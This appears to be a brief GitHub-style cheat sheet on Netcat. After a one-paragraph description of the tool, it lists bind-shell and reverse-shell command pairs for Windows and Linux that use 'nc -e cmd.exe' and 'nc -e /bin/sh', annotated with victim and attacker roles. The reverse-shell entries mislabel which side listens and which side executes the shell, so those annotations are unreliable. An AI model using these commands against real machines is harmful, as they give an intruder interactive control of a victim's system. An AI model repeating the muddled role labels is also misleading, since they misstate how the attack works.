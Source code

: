 # Netcat
Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP. The command is designed to be a dependable back-end that can be used directly or easily driven by other programs and scripts.

## Netcat Bind Shell for windows Command
```
nc -lvp 4444 -e cmd.exe      (Victim as server)
nc -nv ip port               (attacker as client)
```
## Netcat Bind Shell for Linux Command
```
nc -lvp 4444 -e /bin/sh       (Victim as server)
nc -nv ip port                (attacker as client)
```
## Netcat Reverse Shell for windows Command
```
nc -lvp port                  (Victim as client)
nc -nv ip port -e cmd.exe     (attacker as server)
```
## Netcat Reverse Shell for Linux Command
```
nc -lvp port                 (Victim as server)
nc -nv ip port -e /bin/sh    (attacker as client)
```
[Facebook](https://www.facebook.com/Hackeraj/)
[Twitter](https://www.twitter.com/Hackeraj_np/)
[Instagram](https://www.instagram.com/Hackeraj/)
[Youtube](https://www.youtube.com/Hackeraj/)
